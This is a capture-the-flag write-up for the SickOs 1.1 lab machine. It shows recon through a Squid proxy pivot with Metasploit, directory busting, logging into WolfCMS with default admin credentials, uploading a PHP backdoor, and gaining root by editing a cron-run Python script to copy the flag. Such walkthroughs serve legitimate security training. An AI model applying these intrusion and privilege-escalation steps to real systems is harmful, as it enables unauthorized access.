 # SickOs1.1 Writeup

## Recon

``` bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```
Seems port 3128 has a squid proxy open. This might allow for proxy pivoting to scan the internal network

```bash
msfconsole
use auxiliary/scanner/http/squid_pivot_scanning
set RHOSTS <IP>
set RPORT 3128
set RANGE <IP>
run
```

this does an internal port scan and returns

```bash
[+] [IP] IP is alive but 21 is CLOSED
[+] [IP] IP:80 seems OPEN
[+] [IP] IP is alive but 139 is CLOSED
[+] [IP] IP is alive but 445 is CLOSED
[+] [IP] IP is alive but 1433 is CLOSED
[+] [IP] IP is alive but 1521 is CLOSED
[+] [IP] IP is alive but 1723 is CLOSED
[+] [IP] IP is alive but 3389 is CLOSED
[+] [IP] IP is alive but 8080 is CLOSED
[+] [IP] IP is alive but 9100 is CLOSED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This shows that the proxy is able to connect to the internal 80 port. 
Let's see what is hosted there by setting our proxy to the virtual machine

![](OSCPblehh.png)

It seems like there is something here. The next step is to do some directory busting

``` bash
dirb <ip> 
```

this returns:

```bash
---- Scanning URL: http://<IP>/ ----
+ http://<IP>/cgi-bin/ (CODE:403|SIZE:290)                                     
+ http://<IP>/connect (CODE:200|SIZE:109)                                      
+ http://<IP>/index (CODE:200|SIZE:21)                                         
+ http://<IP>/index.php (CODE:200|SIZE:21)                                     
+ http://<IP>/robots (CODE:200|SIZE:45)                                        
+ http://<IP>/robots.txt (CODE:200|SIZE:45)                                    
+ http://<IP>/server-status (CODE:403|SIZE:295) 
```

Let's look in robots.txt to see if there are any directories we've missed

```bash
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

seems like there is a /wolfcms we haven't found. it looks like this

![](OSCPwolfcms.png)

## Exploit

Looks like a content management system. The admin login page for wolfcms is located at
http://<IP>/wolfcms/?/admin/login

by trying some simple admin login credentials like "admin admin" we can login to the admin account.

by going to the article list we can see an article that contains php code. This probably means that the php code get's executed and might allow us to create a shell. By uploading a php file (which we can do as admin) we can upload a php backdoor to the /public folder.

now that we have our shell we can do some recon on the machine.

```bash
whoami
www-data
```

If we check /etc/cron.d/automate we can see that it contains

```bash
* * * * * root /usr/bin/python /var/www/connect.py
```

## Privilege Escalation

This means it executes a file as root in /var/www. since we are www-data we are able to write in that directory. This means we can edit the connect.py file to execute any piece of code we want.
This way we can read the flag by writing the python code

```python
f = open("/root/a0216ea4d51874464078c618298b1367.txt")
f2 = open("/var/www/flag.txt", 'w')
f2.write(f.read())
```

After a little wait it creates a flag.txt file that we can read with the contents:

```bash
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```
